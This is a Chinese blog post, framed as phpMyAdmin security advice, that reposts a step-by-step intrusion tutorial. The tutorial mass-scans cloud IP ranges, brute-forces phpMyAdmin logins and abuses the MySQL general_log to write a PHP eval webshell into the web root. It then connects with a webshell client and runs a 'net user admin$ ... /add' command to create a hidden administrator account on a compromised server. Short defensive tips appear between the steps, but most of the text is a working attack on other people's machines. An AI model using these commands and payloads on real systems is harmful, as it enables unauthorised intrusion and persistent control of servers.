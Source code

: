 ```yaml
---
layout: default
title: phpmyadmin安全预防
category: [Technology, Safe]
comments: true
---
```


## 头疼的安全
之前服务器总是本人黑,千疮百孔,只能一步步的去做一些安全防范,如何防范自然先从如何渗透开始.




## 

前段时间看到了个phpmyadmin提权的教程,很多人都说现在那里还有root帐号root密码这种弱口令，今天给大家来一套完整的教学。

首先百度XX云X地区的IP段（你要是连几个国内云服务运营商的名字都不知道，那我就真的没办法了）。

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049122.jpg)

找到以后百度随便找个工具扫描IP段，大的运营商一般直接后两个大段都是他的

然后找到IP段以后直接找一个80端口批量扫描的工具扫80端口，直接扫两个大段

我用的这个叫S-Xing，百度来的，不知道有没有后门，所以就不提供了

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049123.png)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin9-1532049123.jpg)

扫描好以后导入刚才扫描好的IP

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.png) 

然后选择自动后缀

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049123.jpg)

线程根据自己配置来配置，我直接选择最高500，然后开始爆破

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049123.png)

爆破结果

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin10-1532049123.jpg)

```
防范建议
这里的话,想要防范这一步,可以采取的方法有关闭phpMyAdmin,这个最直接了.
如果不关闭的话,建议更改访问的端口号.
然后默认密码必须修改,不可以使用简单密码.
目录的权限也最好下降到最低.
```

随便选择一个开搞

先看一下服务器信息xx.xx.xx.xx/l.php

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin6-1532049124.jpg)

网站路径什么的都爆出来了，登录后台

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin5-1532049124.png)

老规矩，查下mysql日志文件路径

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.png)


先修改日志路径到当前网站路径，在开启日志，并插入一句话木马，然后关闭日志

SET global general_log_file='C:/phpStudy/PHPTutorial/WWW/sean.php'; 

修改当前日志文件到网站目录下

set global general_log = "ON";                开启mysql记录日志

select '<?php eval($_POST[sean]);?>';   插入PHP        一句话木马

set global general_log = "OFF";              关闭mysql记录日志

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin4-1532049124.png)

执行成功

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124.png)

接下来上菜刀连接上传好的一句话木马

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin3-1532049124-1.png)

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin8-1532049124.png)

用`net user admin$ sean2018.. /add & net localgroup administrators admin$ /add`创建一个管理员账号

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin7-1532049124.jpg)

账号已存在，那就直接修改密码了，带$符号的都是被影藏账号，估计被日了多少次了吧

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124.jpg)

接下来连接试试

![phpmyadmin从找目标到拿下服务器 ](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin0-1532049124-1.jpg)

![phpmyadmin从找目标到拿下服务器](https://www.77169.com/wp-content/uploads/2018/07/beepress-weixin-zhihu-jianshu-toutiao-plugin2-1532049124.png)

```
防范建议
在这一步的话,防范的方法也有一些,比方说加一个安全狗软件,算是不错的了.
至于写文件的这个权限,刚刚如果降低了,应该问题不大,不过也有可以提升权限的一些工具,因此需要及时更新数据库和系统的bug.
至于执行命令创建用户的权限,只能简单做好预防和定期查看了,基本上到了上一步,所有的权限和账户已经有了.到了这里目前只有重装系统,才能干掉这个入侵者的份了.
当然,如果把所有的漏洞堵上,也可以不重装.但是后门太多,非专业人员,处理不会怎么全面.
```
玩完，收工，文章内所有的工具，百度一搜索一大把，我也是百度来的，不知道有没有后门所以就不提供下载了，怕中毒找个虚拟机搞，自己折腾吧。

华盟网原创，随便转载但请注明来自77169.COM，感谢支持！

本文章只做教学思路，请勿用于非法用途



## 说明

[欢迎评论，欢迎指正,转载也请注明出处.](https://wangkun19930608.github.io/%E6%8A%80%E6%9C%AF/c/c++/2018/07/20/find-bug/)

### 参考文章

[phpmyadmin从找目标到拿下服务器](https://www.77169.com/html/215589.html)


### 版本说明

20180806 开始着手文章

20180807 文章完成时间






